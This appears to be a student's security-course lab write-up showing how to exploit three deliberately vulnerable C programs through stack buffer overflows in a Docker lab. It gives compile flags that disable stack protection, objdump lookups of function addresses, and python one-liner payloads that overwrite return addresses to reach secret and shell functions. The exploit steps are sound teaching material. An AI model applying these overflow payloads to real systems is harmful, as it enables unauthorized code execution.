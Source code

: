 # LAB 1

**Run vitual environment by docker file (using for attacking three files: bof1, bof2, bof3)**

`docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab`

## File bof1.c

**Run bof1.c file** 

`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`

 By using `-fno-stack-protector`, the program is compiled without stack protection, making it easier to exploit buffer overflow vulnerabilities, which might otherwise be caught by the stack protection mechanism.

 By using `-mpreferred-stack-boundary=2`, it's setting the stack alignment to 4 bytes (instead of the default 16 bytes), this option changes how memory is arranged on the stack, which may help in crafting certain types of memory exploits.

**Getting secretFunc() address by command**

`objdump -d bof1.out|grep secretFunc`

![alt text](./image/image.png)

We get the address of secretFunc() is: `0804846b`

**Stack frame**

![alt text](./image/image-1.png)

=> It’s a buffer overflow at the 205th byte.

**Run the program by using command**

- Take advantage of the above statement to automatically input 204 bytes of the letter 'a', then insert the address of the `secretFunc` function.
- placement byte (204byte) + address secretFunc(\x6b\x84\x04\x08)

 `echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out`

![alt text](./image/image-2.png)

=> Successful Attack

=> To prevent exploitation in this case, I will replace `gets()` with `fgets()` to ensure the correct limit of array a is respected.


## File bof2.c

**Summarizing**

- In this case, the array buf[] has 40 elements, but the `fgets()` command reads up to 44 elements `(fgets(buf, 45, stdin))`, with the last element reserved for `\0`, the null terminator character.

 => We rely on the last 4 elements to modify the check.

**Stackframe**

![alt text](./image/image-3.png)


**Run the bof2.c file by using the command**
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./image/image-5.png)

**Run the program by using the command**

`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`

![alt text](./image/image-6.png)

=> We attack successfully


## File bof3.c

**Summarizing**

- In this case, the `buf[]` array has 128 elements, but the `fgets()` command reads up to 133 elements.

 => We rely on 4 elements to replace the address addition function into the address function shell

**Stack frame**

![alt text](./image/image-7.png)

**Run the bof3.c file**

`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`

**Get the address of the shell function:**
`objdump -d bof3.out|grep shell`

![alt text](./image/image-8.png)

We get the address of shell function is: `0804845b`

**Run the program by using command**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

![alt text](./image/image-9.png)

=> Successful
